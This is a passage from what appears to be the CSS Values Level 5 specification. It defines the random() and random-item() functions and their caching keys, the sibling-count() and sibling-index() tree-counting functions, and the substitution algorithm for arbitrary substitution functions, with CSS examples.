3. Replace each item in *pieces* with its computed value. If any item does not, at this point, become a string, integer, or ident, return the guaranteed-invalid value.

   > **Note:** For example, if the value is a function that can’t resolve at computed value time.
4. Serialize each item in *pieces*, then concatenate the list. Return an ident whose value is the result. If the result can’t be represented as an ident (for example, the empty string), instead return the guaranteed-invalid value.

### 9.  Generating Random Values {#css-values-5:randomness}

It is often useful to incorporate some degree of "randomness" to a design, either to make repeated elements on a page feel less static and identical, or just to add a bit of "flair" to a page without being distracting.

The `random()` and `random-item()` functions (the **random functions**) allow authors to incorporate randomness into their page, while keeping this randomness predictable from a design perspective, letting authors decide whether a random value should be reused in several places or be unique between instances.

The exact random-number generation method is UA-defined. It *should* be the case that two distinct random values have no easily-detectable correlation, but this specification intentionally does not specify what that means in terms of cryptographic strength. Authors *must not* rely on random functions for any purposes that depend on quality cryptography.

#### 9.1.  Generating a Random Numeric Value: the `random()` function {#css-values-5:random}

The **random()** function is a math function that represents a random value between a minimum and maximum value, drawn from a uniform distribution, optionally limiting the possible values to a step between those limits:

```css
<random()> = random( <random-key>? , <calc-sum>, <calc-sum>, <calc-sum>? )
```

> **Example:** Imagine you have several `.box` elements, all styled with the following CSS:
>
> ```
> .box {
>   width: random(???, 100px, 200px);
>   height: random(???, 100px, 200px);
>   border: thin solid;
> }
> ```
>
> Depending on what `<random-key>` you provide in place of the `???`, you’ll get significantly different behavior for the elements:
>
> **`auto`/omitted, **maximum random**:**
>
> : Each property gets a different value, and it’s different per element too, so you get a bunch of **different** random **rectangles**.
>
> **`--foo`, **shared by name**:**
>
> : Both properties use the same value, and every element shares that value, so you get a bunch of **identical** random **squares**.
>
> **`element-scoped`, **scoped per element**:**
>
> : Both properties use the same value, but each element gets a different value, so you get a bunch of **different** random **squares**.
>
> **`property-scoped`, **scoped per property**:**
>
> : Each property gets a different value, but each element shares that value, so you get a bunch of **identical** random **rectangles**.

See [§ 9.3 Evaluating Random Values](#css-values-5:random-evaluation) and [§ 9.4 Sharing (Or Not) Random Values: the <random-key> value](#css-values-5:random-caching) for details on how the function is evaluated. Its arguments are:

**`<random-key>`**

: The optional `<random-key>` controls which random functions in the document will share a random base value and which will get distinct values. If <random-key> is omitted, it behaves as `auto`.

  See [§ 9.4 Sharing (Or Not) Random Values: the <random-key> value](#css-values-5:random-caching) for a full description of this value.

**`<calc-sum>, <calc-sum>`**

: The two required calculations specify the minimum and maximum value the function can resolve to. Both limits are inclusive (the result can be the min or the max).

  If the maximum value is less than the minimum value, it behaves as if it’s equal to the minimum value.

  > **Example:** For example, `random(100px, 300px)` will resolve to a random `<length>` between `100px` and `300px`: it might be `100px`, `300px`, or any value between them like `234.5px`.

**`<calc-sum>?`**

: The final optional argument specifies a step value: the values the function can resolve to are further restricted to the form `min + (N * step)`, where N is a non-negative integer chosen uniformly randomly from the possible values that result in an in-range value.

  > **Example:** For example, `random(100px, 300px, 50px)` can only resolve to `100px`, `150px`, `200px`, `250px`, or `300px`; it will never return a value like `120px`.
  >
  > Note that the max value might not actually show up as a possible value; for example, in `random(100px, 200px, 30px)`, the possible values are `100px`, `130px`, `160px`, and `190px`.

  > **Note:** Even if it’s *intended* that `min` and `max` are exactly some integer multiple of `step` apart, numeric precision issues can prevent that from being true. To avoid these issues, if the max value is *very close* to equalling a stepped value (above or below it), the max value is used as the final stepped value instead. See [§ 9.3 Evaluating Random Values](#css-values-5:random-evaluation) for precise details.

  > **Example:** As explained in the definition of `round()`, CSS has no "natural" precision for values, but the step value can be used to assign one.
  >
  > For example, `random(100px, 500px, 1px)` restricts it to resolving only to whole px values; `random(1, 10, 1)` is restricted to resolving only to integers; etc.

  > **Note:** Providing a step value *is not equivalent* to generating a random value and then rounding it; `random(100px, 200px, 50px)` will generate three possible values (100px, 150px, 200px) all with a 1/3 chance, while `round(random(100px, 200px), 50px)` will generate the same three possible values, but `150px` will occur 1/2 the time, while `100px` and `200px` will only occur 1/4 of the time each.

All of the calculation arguments can resolve to any value, but must have a consistent type or else the function is invalid; the result’s type will be the consistent type.

> **Example:** For example, `random(50px, 100%, 1em)` is valid (assuming percentages are valid in the context this is used, and resolve to a `<length>`), as all three arguments resolve to a length.
>
> However, `random(50px, 180deg)` is invalid, as lengths and angles are not the same type.

##### 9.1.1.  Argument Ranges {#css-values-5:random-infinities}

In `random(A, B)`, if A is infinite, the result is infinite.

If A is finite, but the difference between A and B is either infinite or large enough to be treated as infinite in the user agent, the result is NaN.

In `random(A, B, C)`, the same behavior for A and B as defined above applies.

If C is infinite, the result is A.

If C is negative, zero, or positive but close enough to zero that the range for the step multiplier (the `N` mentioned in [§ 9.3 Evaluating Random Values](#css-values-5:random-evaluation)) would be infinite in the user agent, the step must be *ignored*. (The function is treated as if only A and B were provided.)

> **Note:** As usual for math functions, if any argument calculation is NaN, the result is NaN.

#### 9.2.  Picking a Random Item From a List: the `random-item()` function {#css-values-5:random-item}

The **random-item()** function resolves to a random item from among its list of items.

```css
<random-item()> = random-item( <random-key> , [ <declaration-value>? ]# )
```

The `random-item()` function’s argument grammar is:

```css
<random-item-args> = random-item( <declaration-value>, [ <declaration-value>? ]# )
```

See [§ 9.3 Evaluating Random Values](#css-values-5:random-evaluation) and [§ 9.4 Sharing (Or Not) Random Values: the <random-key> value](#css-values-5:random-caching) for details on how the function is evaluated.

The *required* `<random-key>` is interpreted identically to `random()`. (See [§ 9.4 Sharing (Or Not) Random Values: the <random-key> value](#css-values-5:random-caching) for details.)

> **Note:** The `<random-key>` argument is required in `random-item()`, but optional in `random()`, for parsing reasons (it’s impossible to tell whether `random-item(--foo, --bar, --baz)` has three `<declaration-value>` arguments or two and a `<random-cache-key>`).

The remaining arguments are arbitrary sequences of CSS values. The `random-item()` function is substituted with one of these sequences, chosen uniformly at random.

The `random-item()` function is an arbitrary substitution function, like `var()`.

> **Note:** That is, if you use `random-item()`:
>
> - So long as `random-item()` itself (and any other arbitrary substitution functions) is syntactically valid, the entire property is assumed to be valid at parse time.
> - `random-item()` is substituted with whatever value it resolves to at computed value time when you’d substitute a var(), so children all inherit the same resolved value.
> - If the substituted value ends up making the property invalid, the property’s value becomes the guaranteed-invalid value.

To **replace a random-item() function**, given a list of *arguments*:

1. Let *value sharing* be the first `<declaration-value>` in *arguments*, and *options* be a list of the remaining <declaration-value>? options.
2. Substitute arbitrary substitution functions in *value sharing*, then parse it as `<random-key>`. If parsing returns failure, return the guaranteed-invalid value; otherwise set *value sharing* to the result.
3. Select one of the *options*, as specified in [§ 9.3 Evaluating Random Values](#css-values-5:random-evaluation), using *value sharing* as specified in [§ 9.4 Sharing (Or Not) Random Values: the <random-key> value](#css-values-5:random-caching), and let *chosen option* be the result.
4. Substitute arbitrary substitution functions in *chosen option*, then return the result.

#### 9.3.  Evaluating Random Values {#css-values-5:random-evaluation}

Given a random function with a random base value *R*, the value of the function is:

**for a `random()` function with *min* and *max*, but no step**

: Return `min + R * (max - min)`

**for a `random()` function with *min*, *max*, and *step***

: - Let *epsilon* be `step / 1000`, or the smallest representable value greater than zero in the numeric type being used if *epsilon* would round to zero.
  - Let *N* be the largest integer such that `min + N * step` is less than or equal to *max*.

    If *N* produces a value that is not within *epsilon* of *max*, but *N*+1 would produce a value within *epsilon* of *max*, set *N* to *N*+1.
  - Let *step index* be a random integer less than *N*+1, given *R*.
  - Let *value* be `min + step index * step`.
  - If *step index* is *N* and *value* is within *epsilon* of *max*, return *max*.
  - Otherwise, return *value*.

  > **Note:** Epsilon/max Details
  >
  > *epsilon* was chosen to be `step / 1000` as a useful "middle ground" value: small enough that it’s very unlikely to accidentally trigger when the author didn’t intend it, but large enough that it’s guaranteed to catch floating-point precision errors.
  >
  > It’s size is also within the realm for authors to exploit themselves; if their *max* is meant to be an integer multiple of their *step*, but the *step* is not a terminating decimal, as long as they write the *step* with 5 or 6 digits of precision then the largest value should land within *epsilon* of *max*.
  >
  > For example, while `random(0px, 100px, 33.3px)` will not generate a `100px` value (the epsilon is `.0333px`, but 3 steps yields `99.9px`, which is `.1px` from *max*, more than the epsilon), `random(0px, 100px, 33.333px)` will (the epsilon is `.033333px`, similar to the previous example, but 3 steps yields `99.999px`, which is `.001px` from *max*, much less than the epsilon). (A sufficiently large number of steps could still cause enough divergence to defeat this, but it works for any remotely reasonable use-case.)
  >
  > Using a calculation to "exactly" represent non-terminating decimals will also work, of course: `random(0px, 100px, 100px / 3)` is guaranteed to be able to generate a `100px` value, as the step value will only be subject to floating-point precision errors far smaller than the epsilon.

**for a `random-item()` function with *N* `<declaration-value>`? arguments:**

: - Let *index* be a random integer less than *N*, given *R*.
  - Return the *index*’th argument (0-indexed).

To **generate a random integer** less than some integer *limit* given a random base value *R*, return `round(down, R * limit, 1)`

#### 9.4.  Sharing (Or Not) Random Values: the `<random-key>` value {#css-values-5:random-caching}

CSS is a declarative language, so functions don’t have a specific “time” when they’re evaluated; the user agent is free to “execute” functions in any order, as many times as they want, as every execution will return the same value. This is difficult to square with random-value functions, which are inherently *stateful* and care about when, how often, and in what order they’re executed.

To solve this, the random functions are associated with a random cache name, ensuring that any time the random function is evaluated with the same cache key, it will return the same random base value; and also that random functions with *different* caching keys will return *different* random base value from each other (unless they are, randomly, the same).

The `<random-key>` value controls this behavior, and defaults to `auto` when omitted. It’s syntax is as follows, and interpreted as described below:

```css
<random-key> = auto | <random-cache-key> | fixed <number [0,1]>
<random-cache-key> =  <dashed-ident> || element-scoped
                       || [ property-scoped | property-index-scoped | <random-ua-ident> ]
<random-ua-ident> = <custom-ident>
```

****auto****

: The random function is roughly “as random as possible”: the random cache name, and thus the result, varies across every `random()` instance in a multi-component value, across different properties, and across different elements.

  This is equivalent to specifying `element-scoped property-index-scoped`, and simplifies in exactly the same way.

****`<random-cache-key>`****

: The `<random-cache-key>` specifies the random cache name, allowing it to be explicitly shared (or not) with other uses of random functions. Every random function using the same random cache name will get the same random value; every one using a *different* random cache name will get unrelated random values.

  - The `<dashed-ident>` gives the value an explicit name. If omitted, this part of the name is null.
  - **element-scoped** adds an element-specific identifier to the random cache name, so different elements will get different random values.

    If the random function is being evaluated inside of a custom function, the element-specific identifier is for the "hypothetical element" that the function’s styles are evaluated on, so `element-scoped` will give you different random values on every function invocation.
  - **property-scoped** adds the property name the random function is being used on to the random cache name, so different properties will get different random values. Note that shorthand declarations will apply the shorthand property’s name.
  - **property-index-scoped** adds the property name *and* the index of the random function among all the random functions used in the same property value to the random cache name, so multiple instances of a random function in the same declaration will each get different random cache names. Note this index is assigned *before* shorthand expansion.

  See [§ 9.4.1 Simplification of <random-key>](#css-values-5:random-simplify) for how these values resolve.

  The **`<random-ua-ident>`** value, like `fixed` below, isn’t intended to be specified by authors, but can show up in computed values. It is a `<custom-ident>` that must start with the prefix `ua-`, or else it is invalid. When generated automatically by the user agent, it follows certain specific patterns; see [§ 9.4.1 Simplification of <random-key>](#css-values-5:random-simplify) for details.

****fixed `<number [0,1]>`****

: If `fixed <number>` is specified, the random function bypasses the random cache name entirely, and just uses the `<number>` as its random base value directly.

  While `1` is technically allowed as a valid value (because CSS grammars can only express closed ranges), the random base value is clamped to the highest representable value less than `1`, so random base values remain in the half-open range `[0, 1)`.

  > **Note:** While this value *might* be useful for authors to get predictable values while testing a page, the reason it exists is to fix some corner cases in inheritance that would otherwise cause elements to *not* share random base values when authors would expect them to. It is observable in some rare computed values, but otherwise will never show up in an element’s styles.

> **Example:** Note that only the random cache name controls whether two random functions have the same value or not; their *other* arguments don’t contribute in any way.
>
> Thus, the following two styles:
>
> ```
> .foo {
>   width: random(--foo, 100px, 200px);
>   animation: --pulse linear random(--foo, 1s, 2s);
> }
> ```
>
> will actually share a random base value because their random cache names are identical. If this random cache name is linked to a random base value of 0.25, for example, this will give the element a width of `125px` and an animation-duration of `1.25s`.
>
> If you want the values to be completely uncorrelated, give them distinct names (`--foo` vs `--bar`) or mix in additional information that will uniquify their random cache names (specifying `--foo property-scoped`, or omitting the `<random-key>` argument entirely)

> **Note:** Details about how `auto` works
>
> The `auto` value is identical to specifying `--foo element-scoped property-index-scoped`, just with an unobservable name that you can’t manually match with a `<dashed-ident>`.
>
> *Usually*, this ensures that every instance of a random function, on every element, gets a different random cache name and thus a different random base value. However, this can fail in some corner cases, causing random values to be shared when it’s unexpected. For example, in the following:
>
> ```
> .foo {
>   animation: flicker linear random(1s, 2s);
> }
> .foo:hover {
>   animation: glow linear random(4s, 6s);
> }
> ```
>
> The two `random()` functions have the same random cache name on a given element (both are the first random function used in `animation`), so they’ll share random base values on a single element and generate related random values, even though the author likely considers them to be different instances of `random()`.
>
> This unexpected sharing is, unfortunately, unavoidable. CSS generally doesn’t care *how* you organize styles for your elements; in particular, whether you style several elements with a single style rule like `.foo, .bar {...}`, multiple style rules like `.foo {...} .bar {...}`, or by setting the `style` attribute on each element individually, you’ll get the same results. This needs to continue to be true even when you’re using random values, so we can’t distinguish random values by how they’re *set*, only how they’re *used*.
>
> There’s no syntactic distinction in a stylesheet between styling "related" elements and "independent" elements, or distinguishing "independent" states, so we must treat all elements as potentially related for this purpose. If this is undesirable, you can always supply a sufficiently unique `<dashed-ident>` yourself, like `random(--sidebar-width, ...)` on one set of elements and `random(--card-width, ...)` on another, or `random(--flicker, ...)` and `random(--glow, ...)` on the different rules.

More specifically, the `random()` and `random-item()` functions are defined to generate random values under the following caching semantics:

- Each instance of a random function in styles has an associated **random base value**.

  If the random function’s `<random-key>` is `fixed <number>`, the random base value is that number.

  Otherwise, the random base value is a pseudo-random real number in the range `[0, 1)` (greater than or equal to 0 and less than 1), generated from a uniform distribution, and influenced by the function’s random cache name.
- Each random function also specifies a **random cache name**. Two random functions with the same random cache name must also have the same random base value; two functions with different random cache names must have distinct random base values. (That is, generated by a fresh random operation; randomness might of course produce the same actual value.)

  It is intentionally unspecified *how* the random cache name is used to achieve this. It can literally cache a generated random value, or be used as a seed for a PRNG, etc.
- A random cache name is a tuple of:

  1. A nullable string name: the value of the `<dashed-ident>`, if specified; otherwise null.
  2. A nullable string property/index value: the value of the `<random-ua-ident>`, if specified/calculated; otherwise null.
  3. A nullable /element identifier/ uniquely identifying the object the style is being applied to (the `Element`, pseudo-element, or custom function evaluation’s "hypothetical element"), if `element-scoped` is specified; otherwise null.
  4. A /document identifier/ identifying the `Document` the styles are from.

  The /element identifier/ and /document identifier/ must have the same lifetimes and equivalence semantics as a JavaScript reference to the `Element` or `Document`.

  > **Issue:** The behavior for pseudo-elements needs to be clarified.
- The random cache name and random base value must be determined by computed value time, before inheritance, so that a random function that is unresolved by inheritance time (due to containing, for example, a layout-sensitive percentage) does not have a different behavior on children than one that resolves immediately.

> **Example:** Shorthands are recorded as part of the random cache name, rather than the longhand the value gets expanded to. For example:
>
> ```
> .same-tb-same-rl {
>   margin: random(0px, 10px) random(0px, 10px);
> }
> ```
>
> Here, the `<random-ua-ident>` part of the random cache name is "ua-margin-1" and "ua-margin-2", respectively. After expansion, then, `margin-top` and `margin-bottom` will share the same random value, and `margin-left` and `margin-right` will share a different random value.
>
> Combining shorthands with longhands will produce different caching keys:
>
> ```
> .different-tb-same-rl {
>   margin: random(0px, 10px) random(0px, 10px);
>   margin-bottom: random(0px, 10px);
> }
> ```
>
> The `margin-bottom` value has a random cache name `<random-ua-ident>` of `"ua-margin-bottom-1"`, which is different from the `margin-top` key of `"ua-margin-1"`, so the top and bottom margins will be different random values. `margin-left` and `margin-right` continue to share a third random value `"ua-margin-2"`, as they still share the name `"margin"` property name and `2` index.

> **Example:** The evaluation semantics of custom properties can make random functions act a little unpredictably if you’re not careful.
>
> For example, in the following:
>
> ```
> .square-or-rect {
>   --size: random(100px, 500px);
>   width: var(--size);
>   height: var(--size);
> }
> ```
>
> If `--size` isn’t a registered custom property, or is registered but with the universal grammar `*`, the `random()` function isn’t evaluated (or even recognized *as* a `random()` function) in `--size`, so the default rules for an omitted `<random-key>` aren’t applied. Instead, it’s evaluated when it’s substituted into `width` and `height`, so each gets a distinct random cache name, and this ends up defining a random *rectangle*, rather than a square.
>
> Similarly, `element-scoped` in the `<random-key>` won’t cause the function to determine its "element identifier" until substitution actually happens—​which might be *after* `--size` has inherited through multiple elements—​so again multiple elements using `var(--size)` would end up with distinct random values rather than sharing one value defined on their ancestor.
>
> The first issue can be resolved, if desired, by specifying a `<dashed-ident>` explicitly, rather than relying on the defaulting rules.
>
> Both issues can be resolved by instead using a registered custom property with a non-universal grammar, so the `random()` function will be parsed and evaluated by the custom property (gaining a `<random-ua-ident>` of "ua---size-1"), and then the resolved random value will be substituted into each property.

##### 9.4.1.  Simplification of `<random-key>` {#css-values-5:random-simplify}

At parse time, certain transformations are performed on the `<random-key>` of a random function:

- If the `<random-key>` is `auto` (or omitted), it’s turned into `element-scoped property-index-scoped`. (And then subject to the below transformations.)
- If the `<random-key>` contains `property-scoped` or `property-index-scoped`, that keyword is replaced by a `<random-ua-ident>`: either `ua-PROPERTY` with PROPERTY being the property the value was parsed as, or `ua-PROPERTY-INDEX` with PROPERTY as the previous and INDEX being the 1-indexed integer index of this random function among all random functions being used in the declaration.

  The INDEX value is based on the ordering in the parsed value, before any canonicalization/reordering might occur that could shuffle the values around.

In certain cases, the `<random-ua-ident>` is slightly more complex:

- when evaluated inside of a custom function (in a property with a type that causes evaluation, such as a typed argument or a typed `result`), in addition to the PROPERTY and/or INDEX, the function’s name is captured in the ident: `ua-FUNCTIONNAME-PROPERTY` or `ua-FUNCTIONNAME-PROPERTY-INDEX`.

  > **Note:** This ensures that different functions that just happen to use the same internal variable names don’t accidentally tie their random values together.

  > **Example:** For example, given the following custom function and usage:
  >
  > ```
  > @function --ex(--arg <length>) returns <length> {
  >   --local: random(2px, 3px);
  >   result: calc(var(--arg) + var(--local) + random(3px, 4px));
  > }
  > .foo {
  >   width: --ex(random(1px, 2px));
  > }
  > ```
  >
  > The `--arg` is registered as a `<length>`, so it’s value is evaluated within the `--arg` property, getting a `<random-ua-ident>` of `ua---ex---arg-1`.
  >
  > The `--local` is *not* registered, so it doesn’t evaluate the `random()` at all; it’s left as-is until substitution.
  >
  > The `result` is also registered as a `<length>`. Both the `random(2px, 3px)` (from `--local` substitution) and `random(3px, 4px)` (written literally) evaluate within `result`, getting `<random-ua-ident>`s of `ua---ex-result-1` and `ua---ex-result-2`.

  > **Example:** On the other hand, in this example:
  >
  > ```
  > @function --no-types(--arg) {
  >   result: calc(var(--arg) + random(2px, 3px));
  > }
  > .foo {
  >   width: --no-types(random(1px, 2px));
  > }
  > ```
  >
  > Neither the `--arg` argument nor the `result` are typed, so their values aren’t evaluated within the function. The function call substitutes itself with the value `calc(random(1px, 2px) + random(2px, 3px))`, which is then evaluated within `width`, getting `<random-ua-ident>`s of `ua-width-1` and `ua-width-2` instead.
- when evaluated inside of an arbitrary substitution function as part of the substitution process, the prefix is `ua-early-` rather than just `ua-`: `ua-early-PROPERTY` or `ua-early-PROPERTY-INDEX`.

  Additionally, if the INDEX portion is included in the ident, it is incremented *separately* from non-"early" usage (that is, the "early" usage counts up from 1, then non-"early" usage will also count up from 1) and increments across substitutions in the property (that is, multiple different arbitrary substitution functions will use successive indexes, rather than resetting to 1 for each substitution).

  > **Example:** For example, in this relatively complex value:
  >
  > ```
  > .foo {
  >   width: calc(
  >     if(
  >       style(/*eA*/random(auto, ...) < 0.5):
  >         /*lA*/random(auto, ...);
  >       else:
  >         /*lB*/random(auto, ...))
  >     )
  >     +
  >     if(
  >       style(/*eB*/random(auto, ...) < 0.5):
  >         /*lC*/random(auto, ...);
  >       else:
  >         /*lD*/random(auto, ...))
  >     )
  >   );
  > }
  > ```
  >
  > During replacement, the tests of both `if()`s are parsed (since using `==` or `>` provides a numeric context, giving the UA the necessary knowledge to evaluate them), resulting in, effectively, the following code:
  >
  > ```
  > .foo {
  >   width: calc(
  >     if(
  >       style(/*eA*/random(element-scoped ua-early-width-1, ...) < 0.5):
  >         /*lA*/random(auto, ...);
  >       else:
  >         /*lB*/random(auto, ...))
  >     )
  >     +
  >     if(
  >       style(/*eB*/random(element-scoped ua-early-width-2, ...) < 0.5):
  >         /*lC*/random(auto, ...);
  >       else:
  >         /*lD*/random(auto, ...))
  >     )
  >   );
  > }
  > ```
  >
  > That is, the two values in the tests have distinct `<random-ua-ident>`s, and will be element-scoped as well, so every instance on every element will evaluate to distinct values.
  >
  > Based on these random values, each `if()` will substitute itself with one of its two (unevaluated) branches. When these are then parsed according to the `width` grammar, they will receive "normal" `<random-ua-ident>`s with their indexes restarting from 1, effectively:
  >
  > ```
  > .foo {
  >   width: calc(
  >     /*lA*/random(element-scoped ua-width-1, ...)
  >     +
  >     /*lD*/random(element-scoped ua-width-2, ...)
  >     )
  >   );
  > }
  > ```
  >
  > Since these are using different `<random-ua-ident>`s than the "early" ones, their random values will be distinct as well.

These additional modifiers can be combined. For example, if a `random(0, 1)` is evaluated in the test of an `if()` used in the `result` of a custom function named `--foo()`, the `<random-ua-ident>` will be `ua-early---foo-result-1`.

If the `<random-key>` contains a `<random-ua-ident>`, this must not be omitted in the serialization of the value, even if this would normally be valid per the "shortest serialization principle".

> **Example:** For example, specifying `margin: random(10px, 20px) random(10px, 20px)` will cause the top and bottom margins to be one random value, and the left and right margins to be another random value. The omitted `<random-key>`s get rewritten at parse-time to `element-scoped ua-margin-1` and `element-scoped ua-margin-2`, respectively, before they expand into the `margin` longhands.
>
> This way, the `margin-top` and `margin-bottom` longhands will both contain the key `element-scoped ua-margin-1`, ensuring that the two values remain linked even if you read and then set the value back.

The random base value of a random function is generally known at specified value time, once it’s known which element the function is being applied to. As a math function, a `random()` function can be simplified as soon as its argument calculations can be simplified to compatible numeric values. If a `random()` function can’t be fully simplified by computed value time, then its arguments are maximally simplified, and its specified `<random-key>` is replaced with `fixed BASE`, where `BASE` is the function’s random base value.

> **Note:** As an arbitrary substitution function, `random-item()` is always replaced at computed value time.

> **Example:** For example, given the declaration `width: random(100px, 100%)`, the calculations can’t be simplified at computed value time because the percentage depend on used value information (the size of the element’s containing block, to resolve the `100%` against).
>
> So, the computed value of the property becomes something like `width: random(fixed .1234, 100px, 100%)`. Once the `100%` is resolved to a length (say, `500px`), the function will be able to fully simplify (to `149.36px`).

### 10.  Tree Counting Functions: the `sibling-count()` and `sibling-index()` notations {#css-values-5:tree-counting}

The **sibling-count()** functional notation represents, as an `<integer>`, the total number of child elements in the parent of the element on which the notation is used.

The **sibling-index()** functional notation represents, as an `<integer>`, the index of the element on which the notation is used among its inclusive siblings. Like `:nth-child()`, `sibling-index()` is 1-indexed.

Together, these are known as the **tree-counting functions**.

> **Note:** The `counter()` function can provide similar abilities as `sibling-index()`, but returns a `<string>` rather than an `<integer>`.

When used on an element-backed pseudo-element that is also a real element, the tree-counting functions resolve for that real element. For other pseudo-elements, they resolve as if they were resolved against the ultimate originating element.

A tree-counting function is a type of loosely-matched tree-scoped reference, which is resolved as if the element were given an automatic tree-scoped name that matches an identical automatic name on the tree-scoped reference of the tree-counting function. If the reference fails to match (because the element is, for example, in a descendent shadow tree from the stylesheet), the function returns 0.

> **Note:** This restriction is to avoid leaking shadow tree information to outer trees.

> **Example:** The following examples show how `sibling-index()` resolves for pseudo-elements and across shadow tree boundaries:
>
> ```css
> #target {
>   /* Based on the sibling-index() of #target */
>   width: calc(sibling-index() * 10px);
> }
> #target::before {
>   /* Based on the sibling-index() of #target */
>   width: calc(sibling-index() * 10px);
> }
> #target::before::marker {
>   /* Based on the sibling-index() of #target */
>   width: calc(sibling-index() * 10px);
> }
> ::slotted(*)::before {
>   /* Based on the sibling-index() of the slotted element in the outer tree */
>   width: calc(sibling-index() * 10px);
> }
> ::part(my-part) {
>   /* Returns 0px, because referencing a shadow tree */
>   width: calc(sibling-index() * 10px);
> }
> :host {
>   /* Based on the host's sibling-index() in the outer tree */
>   width: calc(sibling-index() * 10px);
> }
> ```

> **Note:** Like `:nth-child()` and other counting selectors, the tree-counting functions operate on the DOM tree, rather than the flat tree like most CSS operations do. They may, in the future, have variants that support counting flat tree siblings.

> **Note:** These functions may, in the future, be extended to accept an `of <complex-real-selector-list>` argument, similar to `:nth-child()`, to filter on a subset of the children.

### Appendix A: Arbitrary Substitution Functions {#css-values-5:arbitrary-substitution}

An **arbitrary substitution function** is a functional notation that will, when resolved, substitute itself with other values that are unknowable at parse time.

#### Substitution {#css-values-5:substitution}

Each arbitrary substitution function must define how to **replace an arbitrary substitution function** for itself, given a list of arguments and a stack of substitution contexts, and likely involving further substitution. It must return a sequence of component values (fully resolved, so no further arbitrary substitution functions exist in the sequence), which it will be replaced by.

> **Note:** A function’s replacement algorithm is called with the results of [early substitution](#css-values-5:early-resolution) and parsing with the function’s argument grammar, but nothing more. The algorithm will have to further substitute each argument it deals with, before parsing it as the appropriate part of its *normal* grammar, and then performing whatever logic it needs.
>
> It might leave some arguments completely unsubstituted (for example, the fallback argument of an `attr()` function, if the attribute value exists and correctly parses), or only parse some arguments based on the results of evaluating other arguments (for example, later `<if-condition>` values in an `if()` function are only evaluated if earlier ones evaluated as false, and only the result in the "successful" `<if-branch>` is evaluated).

To **substitute arbitrary substitution functions** in a sequence of component values *values*, given an optional substitution context *context*:

1. Guard *context* for the remainder of this algorithm. If *context* is marked as a cyclic substitution context, return the guaranteed-invalid value.
2. For each arbitrary substitution function *func* in *values* (ordered via a depth-first pre-order traversal) that is not nested in the contents of another arbitrary substitution function:

  1. Substitute early-invoked functions in *func*’s contents, and let *early result* be the result.
  2. If *early result* contains the guaranteed-invalid value, replace *func* in *values* with the guaranteed-invalid value and continue.
  3. Parse *early result* according to *func*’s argument grammar. If this returns failure, replace *func* in values with the guaranteed-invalid value and continue; otherwise, let *arguments* be the result.
  4. Replace an arbitrary substitution function for *func*, given *arguments*, as defined by that function. Let *result* be the returned list of component values.
  5. If *result* contains the guaranteed-invalid value, replace *func* in *values* with the guaranteed-invalid value. Otherwise, replace *func* in *values* with *result*.
3. If *context* is marked as a cyclic substitution context, return the guaranteed-invalid value. Nested arbitrary substitution functions may have marked *context* as cyclic in step 2.
4. Return *values*.

A **substitution context** is a list consisting of: the dependency type, as a string; one or more additional values, specific to the dependency type. (Usually, just one additional string.)

As arbitrary substitution functions are resolved they accumulate substitution contexts which affect how *nested* arbitrary substitution functions resolve.

> **Example:** For example, while resolving a `var(--foo)` function, the value of the `--foo` property is fetched and substituted, with a substitution context of `«"property", "--foo"»`, preventing any nested arbitrary substitution functions from cyclicly depending on `--foo` as well.
>
> While resolving an `attr(foo)` function, the value of the `foo` attribute on the element is fetched and substituted, with a substitution context of `«"attribute", "foo"»`, preventing any nested functions from cyclicly depending on the `foo` attribute as well.

The types of substitution contexts are currently:

- "property", followed by a property name, and optionally a custom function.
- "attribute", followed by an attribute name.
- "function", followed by a custom function.

As substitution is recursively invoked by nested arbitrary substitution functions being replaced, guards "stack up" the substitution contexts passed to each invocation.

When a substitution context is **guarded**, it means that, for the duration of the guard, an attempt to guard a matching substitution context again will mark all substitution contexts involved in the cycle as **cyclic substitution contexts**.

> **Example:** For example, given the following style:
>
> ```
> .foo {
>   --one: var(--two);
>   --two: var(--one);
> }
> ```
>
> Property replacement for `--one` invokes substitution with a substitution context of «"property", "--one"». Substitution sees the `var(--two)` function and invokes replace a var() function, which fetches the values of `--two` and substitutes again, this time with a substitution context of «"property", "--two"». That substitution sees the `var(--one)` function and invokes replace a var() function, which fetches the value of `--one` and substitutes again, with a substitution context of «"property", "--one"».
>
> This, finally, is a cyclic substitution context, since it matches the substitution context from the first substitution, causing the substitution to just produce the guaranteed-invalid value. This percolates back up the nested invocations, eventually resulting in `--one` becoming invalid at computed-value time. The same happens, in opposite order, when performing property replacement on `--two`.

> **Example:** When a cycle is detected, all participants in the cycle become invalid. For example, all of the following declarations become invalid at computed-value time.
>
> ```
> .foo {
>   --one: var(--two);
>   --two: var(--three, baz);
>   --three: var(--one);
> }
> ```
>
> The presence of a fallback in `var(--three, baz)` does not affect the outcome.

#### Argument Grammars and Spread Syntax {#css-values-5:early-resolution}

Each arbitrary substitution function, in addition to its standard grammar, must define an **argument grammar**: a much less specific and less restrictive version of its normal grammar, which serves solely to separate the function’s contents into distinct arguments.

> **Note:** Typically, an argument grammar will only consist of some punctuation (usually commas) and the `<declaration-value>` production. See the `if()` function for an example.

Each function, in its replacement algorithm, will apply substitution to its arguments and then parse them according to the appropriate parts of its standard grammar. As it is in control of this process, however, some arguments can be left unresolved and unparsed.

> **Example:** For example, the `if()` function’s argument grammar merely divides its value into alternating "test" and "result" arguments, separated by `:` and `;`. It then evaluates tests one by one, and only evaluates a single argument matching the first successful test.
>
> This allows `if()` to achieve behavior similar to `if` constructs in other programming languages, where later "branches" aren’t evaluated at all (beyond a basic parse) and thus can’t cause errors in cases that would be caught by earlier branches.
>
> This means the following is a valid declaration when the viewport is `600px` or wider, resulting in the value `blue`. Only when the viewport is narrower than `600px` does the `if()` trigger cyclic behavior and cause `--color` to be invalid at computed-value time.
>
> ```
> .foo {
>   --color: if(media(width >= 600px): blue; else: var(--color));
> }
> ```

This also means that, ordinarily, parsing according to a function’s argument grammar *does not* see the results of any nested arbitrary substitution functions; the contents are divided into arguments based only on the values literally present inside the function.

> **Example:** For example, in `random-item(auto, var(--foo), var(--bar))`, the `random-item()` function selects between two random values, either the result of `var(--foo)` or `var(--bar)`. This is true even if one of them contains commas, like:
>
> ```
> .random-fonts {
>   --foo: Courier, monospace;
>   --bar: Arial, serif;
>   font-family: random-item(auto, var(--foo), var(--bar));
>   /* equivalent to: */
>   font-family: random-item(auto, {Courier, monospace}, {Arial, serif});
>
>   /* and thus, randomly, equivalent to either */
>   font-family: Courier, monospace;
>   /* or */
>   font-family: Arial, serif;
> }
> ```
>
> This behavior ensures that authors don’t have to defensively wrap any arguments containing arbitrary substitution functions in `{}` characters; what you see is what you get.

